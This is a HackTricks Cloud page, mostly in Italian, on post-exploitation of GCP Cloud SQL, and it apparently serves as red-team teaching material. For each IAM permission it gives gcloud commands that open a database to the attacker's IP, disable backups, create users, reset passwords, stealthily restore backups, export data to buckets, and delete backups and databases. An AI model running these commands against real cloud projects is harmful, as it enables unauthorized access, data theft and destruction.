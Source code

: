 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Per ulteriori informazioni su Cloud SQL, controlla:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Per connettersi ai database, **è sufficiente avere accesso alla porta del database** e conoscere il **nome utente** e la **password**, non ci sono requisiti IAM. Quindi, un modo semplice per ottenere accesso, supponendo che il database abbia un indirizzo IP pubblico, è aggiornare le reti consentite e **permettere al proprio indirizzo IP di accedervi**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
È anche possibile utilizzare **`--no-backup`** per **interrompere i backup** del database.

Poiché questi sono i requisiti, non sono completamente sicuro a cosa servano i permessi **`cloudsql.instances.connect`** e **`cloudsql.instances.login`**. Se lo sai, invia una PR!

### `cloudsql.users.list`

Ottieni un **elenco di tutti gli utenti** del database:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Questo permesso consente di **creare un nuovo utente all'interno** del database:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Questo permesso consente di **aggiornare l'utente all'interno** del database. Ad esempio, puoi cambiare la sua password:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

I backup potrebbero contenere **vecchie informazioni sensibili**, quindi è interessante controllarli.\
**Ripristina un backup** all'interno di un database:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Per farlo in modo più furtivo, è consigliato creare una nuova istanza SQL e recuperare i dati lì invece che nei database attualmente in esecuzione.

### `cloudsql.backupRuns.delete`

Questo permesso consente di eliminare i backup:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Esporta un database** in un Cloud Storage Bucket in modo da poterlo accedere da lì:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importa un database** (sovrascrivi) da un Cloud Storage Bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Elimina un database dall'istanza db:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
